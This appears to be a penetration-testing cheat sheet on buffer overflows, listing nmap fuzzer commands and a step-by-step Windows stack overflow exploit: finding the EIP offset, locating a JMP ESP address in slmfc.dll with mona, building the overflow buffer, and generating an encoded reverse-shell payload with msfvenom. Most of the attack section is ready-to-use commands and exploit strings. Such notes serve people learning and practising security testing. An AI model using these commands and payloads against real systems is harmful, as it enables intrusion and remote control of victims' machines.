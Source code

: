 Buffer Overflows and Exploits
===================================================================================================================================

-   DEP and ASLR - Data Execution Prevention (DEP) and Address Space
    Layout Randomization (ASLR)


-   Nmap Fuzzers:

    -   NMap Fuzzer List  
        [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

    -   NMap HTTP Form Fuzzer  
        nmap --script http-form-fuzzer --script-args
        'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
        -p 80 $ip

    -   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

-   MSFvenom  
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

-   Windows Buffer Overflows

    -   Controlling EIP
    
             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    -   Verify exact location of EIP - [\*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    -   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    -   MSFVenom to create payload
    
            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
